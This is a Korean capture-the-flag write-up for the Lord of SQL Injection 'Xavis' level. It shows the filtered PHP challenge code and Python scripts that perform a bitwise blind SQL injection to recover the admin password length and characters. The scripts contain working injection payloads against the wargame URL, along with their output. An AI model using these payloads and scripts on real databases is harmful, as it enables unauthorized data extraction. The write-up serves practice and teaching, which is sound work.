

# Level 19 - Xavis

## 문제



## 문제 의도

- php 소스를 읽을 줄 아는가?
- Blind-SQLi를 수행할 수 있는가?

## 코드 분석

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe");
  // regex, like 가 필터링 되었다.
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis");
  highlight_file(__FILE__);
?>
```

## 문제 풀이

LIKE 문이 차단되었으므로 substr() 함수 같은 걸로 pw 값을 찾아내기 위해 쿼리를 짜서 코드를 돌렸는데, 왠지 모르게 그동안 먹혔던 charset이 통하지 않았다. 그동안 알파벳 소문자와 숫자로만으로도 pw 값을 알아낼 수 있으나, pw 첫번째 문자부터 알아 낼수 없는 것으로 보아, pw 값은 일반적인 ASCII가 아닌 유니코드 값일 수 있겠다고 생각이 들었다ㅠ

이번 문제는 간단한 문자값 대입이 아닌 비트연산으로 문자를 추출함으로 문제를 해결했다. 많은 사람들의 코드를 참고했다.

```python
def getlength(headers, cookies):
    print("[+] Figuring pw LENGTH...")
    length = 1
    while True:
        url1 = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php"
        url2 = "?pw=-1' or 1=1 and id='admin' and LENGTH(pw)=" + str(length) + "-- -"

        res = requests.get(url1+url2, headers=headers, cookies=cookies)
        if str(res.text).find("<h2>Hello admin</h2>") != -1:
            return length
        else:
            length = length + 1
```

length() 함수로 admin의 pw 필드의 길이를 알아낸다. 총 40 바이트 였다.

```python
def getpassword(headers, cookies, pwLen):
    concat = ''
    for i in range(1, pwLen + 1):
        findPw = 0
        bit = ''
        for j in range(32):
            #print shootUrl
            url1 = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php"
            url2 = "".join([
                "?pw=1%27||id=%27admin%27%26%26ord(substring(pw,",
                str(i),
                ",1))%26pow(2,",
                str(j),
                ")%23"
            ])
            data = requests.get(url1+url2, headers=headers, cookies=cookies)
            if str(data.text).find(r"Hello admin") != -1:
                bit.join('1')
                findPw = findPw + pow(2, j)
            else:
                bit.join('0')
        if findPw == 0:
            break
        else:
            print("[{:d}] th char : 0x{:04x} {}".format(i, findPw, bit[::-1]))
            concat = concat + chr(findPw)
    print(concat)
```

orb(substring()) 로 pw 필드에서 문자를 가져온후, 각 비트에 AND 연산을 해 0인지 1인지 알아낸 다음 값을 쌓는다. 쌓은 값은 후에 chr() 함수로 UTF-8 문자로 변환해 concat 변수에 하나하나 쌓는다.

블랙펄 라이트업을 따라했는데 잘 돌아갔다. 내가 한건 아무리 해도...크흡

```text
출력:
[+] Assumed PW LENGTH :  40
[1] th char : 0x00b8
[2] th char : 0x00f9
[3] th char : 0x00c5
[4] th char : 0x00b0
[5] th char : 0x00c6
[6] th char : 0x00d0
[7] th char : 0x00c4
[8] th char : 0x00a1
[9] th char : 0x00a4
[10] th char : 0x00bb
¸ùÅ°ÆÐÄ¡¤»
```

각 문자 값을 뽑아낸 후에 차곡차곡 쌓아놓은 concat `¸ùÅ°ÆÐÄ¡¤»`을 출력한다. 이 문자열을 pw 필드에 넣으면 문제를 해결 할 수 있다.


## Reference (생명의 은인)

- [MYSQL ORD() FUNCTION](https://www.w3resource.com/mysql/string-functions/mysql-ord-function.php)